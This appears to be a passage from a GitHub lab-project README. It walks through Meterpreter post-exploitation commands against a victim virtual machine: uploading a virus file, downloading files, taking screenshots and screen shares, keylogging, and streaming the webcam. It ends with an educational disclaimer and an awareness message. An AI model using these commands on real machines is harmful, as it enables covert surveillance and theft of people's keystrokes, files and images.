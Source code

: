     cd: change directory</br>
    ls: list the contents of that particular directory</br>
    pwd: print working directory</br>

    To upload files in the victim machine, we can simply use the upload command</br>
    upload /home/attacker/Desktop/virusnew.exe</br>

    This command will simply upload the virus.exe file from the attackers computer to the present working directory of the victim machine. Note that, attacker is the name of our attacker machine here in our example.



2.  Download files from the victims computer.</br>
    We can use download command to download a file from the victim machine. And cat command to open it.


3.  Viewing the screen</br>
    By doing the command:</br>
    screenshot -v true</br>
    screenshot of the current screen of the victim window can be taken. A popup will come in front.
    Even we can continously watch the screen by the command:</br>
    screenshare</br>
    a player will start and screen will get shared.


4.  Keystrokes logging</br>
    To start recording the key strokes, the command is:</br>
    keyscan_start</br>
    and to dump the recorded commands so far:</br>
    keyscan_dump</br>
    In the dump <cr> refers to carriage return or it is the enter key pressed.


5.  Syping with webcam</br>
    For this lab project, we need to give access to the camera for our virtual machine. To do that, we need to go to Machine>Settings>Ports. Select USB and checkbox enable USB Controller. Restart the VM, turn off the defenders and go to Devices>Webcams and select the name of webcam.


    Now, we can spy through the webcam with the following commands in meterpreter.</br>

    Command: webcam_list</br>
    this will show the available webcam on that machine.
    We just need to type this command to open and view the webcam.</br>
    Command:  webcam_stream</br>

    meterpreter will open the firefox and stream video.

Note: So for safety, we should always cover or tape our webcam of laptop or external USB device.



<h3>Disclaimer: This project is for educational purpose only.</h3>

<h3>Key Takeaway: </h3>
  This project is to create awareness about the ease of hacking and taking control over the digital system. With a simple mistake of downloading a simple malware by clicking the vulnerable links, one can get victimized to very high extent.

<p align="left">

